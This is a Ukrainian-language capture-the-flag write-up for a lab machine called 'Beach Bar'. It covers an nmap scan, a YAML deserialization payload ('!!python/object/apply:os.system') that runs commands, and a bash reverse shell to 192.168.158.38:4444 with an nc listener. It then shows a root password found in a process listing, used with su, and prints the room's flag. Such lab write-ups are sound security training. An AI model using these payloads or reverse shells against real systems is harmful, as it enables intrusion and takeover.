





# Beach Bar 
### At the Beach Bar, even shell access is complimentary. The jukebox takes requests. Any kind.

Складність: Easy

Ціль: 10.114.176.12

## 1. Розвідка (Reconnaissance & Enumeration)

### 1.1. Сканування портів (Nmap):
   ```bash
      └─$ sudo nmap -sC -sV -p- -vv -oN nmap_result.txt 10.114.176.12
   ```



### 1.2. Веб-розвідка:
   `http://10.114.176.12/login`




```bash
└─$ cat playlist_test.yml 
# Beach Bar jukebox playlist export
playlist:
  name: !!python/object/apply:os.system ["id"]
  vibe: test
  tracks: []
```




```bash
└─$ cat playlist_rev_shell.yml 
# Beach Bar jukebox playlist export
playlist:
  name: !!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/192.168.158.38/4444 0>&1'"]
  vibe: test
  tracks: []
```

```bash
└─$ nc -lvnp 4444
```



```bash
bartender@tryhackme-2404:/opt/beach-bar/webapp$ cat /home/bartender/user.txt 
THM{y4ml_pl4yl1st_pwns_th3_b34ch}
bartender@tryhackme-2404:/opt/beach-bar/webapp$ 
```

```bash
bartender@tryhackme-2404:/opt/beach-bar/webapp$ ls -la /opt/beach-bar/jukeboxd/
total 12
drwxr-xr-x 2 systemd-coredump ubuntu 4096 Jun 11 13:00 .
drwxr-xr-x 5 systemd-coredump ubuntu 4096 Jun 11 13:21 ..
-rw-r--r-- 1 systemd-coredump ubuntu  623 Jun 11 13:00 jukeboxd.py
bartender@tryhackme-2404:/opt/beach-bar/webapp$ cat /opt/beach-bar/jukeboxd/jukeboxd.py 
#!/usr/bin/env python3

import argparse
import time

NOW_PLAYING = [
    "Khruangbin - Maria Tambien",
    "Men I Trust - Show Me How",
    "Crumb - Locket",
    "Mac DeMarco - Chamber of Reflection",
]


def main():
    parser = argparse.ArgumentParser(description="Beach Bar jukebox streamer")
    parser.add_argument("--stream-pass", required=True, help="stream backend password")
    parser.add_argument("--bitrate", default="320k")
    args = parser.parse_args()

    i = 0
    while True:
        track = NOW_PLAYING[i % len(NOW_PLAYING)]
        i += 1
        time.sleep(30)


if __name__ == "__main__":
    main()
bartender@tryhackme-2404:/opt/beach-bar/webapp$ ps auxww | grep -i '[j]ukebox'
root         616  0.0  0.2  20176 11684 ?        Ss   18:52   0:00 /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
```

```bash
bartender@tryhackme-2404:/opt/beach-bar/webapp$ su - root
Password: 
root@tryhackme-2404:~# 
```


